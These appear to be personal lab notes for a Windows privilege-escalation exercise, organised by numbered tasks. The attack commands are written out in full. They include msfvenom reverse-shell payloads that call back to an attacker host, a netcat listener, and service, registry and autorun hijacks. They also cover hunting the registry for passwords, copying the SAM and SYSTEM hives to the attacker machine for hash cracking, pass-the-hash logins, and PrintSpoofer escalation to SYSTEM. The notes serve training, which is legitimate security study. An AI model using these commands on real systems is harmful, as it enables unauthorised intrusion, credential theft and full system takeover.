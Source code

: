 ### Kali
      msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.45.46 LPORT=53 -f exe -o reverse.exe
      sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
### windows
      copy \\10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe
### kali
      sudo nc -nvlp 53
           windows test with 
      C:\PrivEsc\reverse.exe

### TASK 3 
      C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
      Sc qc daclsvc [ see it runs with system priv ]
      sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\"" [ modify so it runs ]
      net start daclsvc

      Q1: C:\program files\dacl service\daclservice.exe
### Task 4
      Sc qc unquotedsvc
      C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\" [ can write to directory ]
      copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe" [ copy reverse shell and name it common ]
      Q1: C:\program files\unquoted path service\common files\unquotedpathservice.exe
### Task 5
      sc qc regsvc
      C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc

      Overwrite registry key 
      reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
### Task 6
      sc qc filepermsvc [system]
      C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe" [writeable by everyone]
      copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y [replace file]
### Task 7
      reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run [query autorun]
      C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe" [wrietable by all]
      copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y [overwrite exe]
      rdesktop 10.10.251.127

### Task 8
      reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated [ query for AlwaysInstall keys]
      on Kali 
      msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi 
      Transfer the reverse.msi file to the C:\PrivEsc directory on Windows (use the SMB server method from earlier).
      Start listener on kali
      msiexec /quiet /qn /i C:\PrivEsc\reverse.msi

### Task 9
      reg query HKLM /f password /t REG_SZ /s
      reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
      password123
      on kali 
      winexe -U 'admin%password' //10.10.251.127 cmd.exe

### Task 10
      cmdkey /list [ list saved creds]
      on kali
      runas /savecred /user:admin C:\PrivEsc\reverse.exe [ using runas users saved creds

### Task 11
      Transfer Sam and System files to kali VM 
      copy C:\Windows\Repair\SAM \\10.2.45.46\kali\
      copy C:\Windows\Repair\SYSTEM \\10.2.45.46\kali\

      on kali
      git clone https://github.com/Neohapsis/creddump7.git
      sudo apt install python-crypto
      python2 creddump7/pwdump.py SYSTEM SAM
      put those in a file then john dump –-format=nt
### Task 12
      Authenticate using the hash
      pth-winexe -U 'admin%hash' //10.10.251.127 cmd.exe
### Task 13 
      type C:\DevTools\CleanUp.ps1 [ view contents of script ]
      C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
      echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
      start listener on kali
### Task 14 
      rdesktop -u user -p password321 10.10.251.127
      tasklist /V | findstr mspaint.exe
      In Paint, click "File" and then "Open". In the open file dialog box, click in the navigation input and paste: file://c:/windows/system32/cmd.exe

### Task 15
      C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp" [users can write to startup ]
      Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:
      cscript C:\PrivEsc\CreateShortcut.vbs
      listener on kali then
      rdesktop -u admin 10.10.251.127


### Task 16
      SeImpersonatePrivilege
      SeAssignPrimaryTokenPrivilege 


### Task 17
      Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:
      C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
      Start another listener on Kali.
      Now, in the "local service" reverse shell you triggered, run the PrintSpoofer exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):
      C:\PrivEsc\PrintSpoofer.exe -c "C:\PrivEsc\reverse.exe" -i

### Task 18 
      Several tools have been written which help find potential privilege escalations on Windows. Four of these tools have been included on the Windows VM in the C:\PrivEsc directory:
      winPEASany.exe
      Seatbelt.exe
      PowerUp.ps1
      SharpUp.exe
